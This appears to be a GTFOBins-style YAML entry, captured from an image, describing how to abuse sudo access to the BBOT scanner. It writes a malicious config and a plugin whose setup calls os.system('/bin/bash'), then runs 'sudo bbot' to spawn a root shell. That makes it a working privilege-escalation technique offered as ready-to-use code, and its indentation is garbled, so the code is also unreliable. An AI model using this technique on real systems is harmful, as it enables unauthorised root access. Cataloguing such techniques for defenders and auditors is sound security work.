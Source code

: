 ```yaml
---
functions:
  sudo:
    - description: This command creates a couple of malicious YML config files and BBOT plugins, then inits BBOT and triggers the malicious plugin.
    code: |
      TEMP_YMLCONF=$(mktemp /tmp/XXXXXXXX.yml)
      TEMP_PLUGINDIR=$(mktemp -d /tmp/XXXXXXXX)
      TEMP_PLUGIN=$TEMP_PLUGINDIR/init_userbash.py
      TEMP_OUTDIR=$(mktemp -d /tmp/XXXXXXXX)
      PLUGIN_NAME=init_userbash
      cat << EOF > $TEMP_YMLCONF
      targets: localhost
      output_dir: $TEMP_OUTDIR
      module_dirs: $TEMP_PLUGINDIR
      EOF
      cat << EOF > $TEMP_PLUGIN
      import os
      from bbot.modules.base import BaseModule
      class init_userbash(BaseModule):
          async def setup(self):
              self.hugeinfo(f"[*] Starting a new user shell ......")
              os.system("/bin/bash")
                    async def handle_event(self, event):
                        self.hugeinfo(f"[*] Exiting shell ......")
                EOF
                sudo bbot -p $TEMP_YMLCONF -m $PLUGIN_NAME -t localhost
---
```

